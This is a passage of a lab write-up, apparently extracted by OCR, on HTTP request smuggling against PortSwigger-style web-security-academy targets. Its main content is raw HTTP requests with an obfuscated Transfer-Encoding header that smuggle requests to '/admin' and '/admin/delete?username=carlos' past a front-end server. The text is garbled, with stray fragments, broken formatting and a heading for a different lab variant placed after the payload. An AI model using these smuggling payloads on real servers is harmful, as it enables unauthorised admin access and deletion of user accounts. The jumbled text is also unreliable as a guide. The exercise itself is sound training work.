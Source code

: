 3
x=y
0

`GET /admin HTTP/1.1
Host: localhost
x=x
---
3.
---
```
POST / HTTP/1.1
Host: acb01f791f358360c0f7901000650001.web-security-academy.net
Cookie: session=eu4TfRuSOBg8KLcGj6LaQE6C3gVsh6Ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
tRANSFER-ENCODING: chunked

3
x=y
0
```
---
Response:
```
                       <div>
                           <span>carlos - </span>
                           <a href="/admin/delete?`username=carlos">Delete</a>
                        </div>
                       <div>
```

 `                       
- Then, make this request twice,  and carlos was deleted:
```
POST / HTTP/1.1
Host: acb01f791f358360c0f7901000650001.web-security-academy.net
Cookie: session=eu4TfRuSOBg8KLcGj6LaQE6C3gVsh6Ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
0
```
```
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
```
x=x
---
### Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
Here's a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.
Goal:
To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.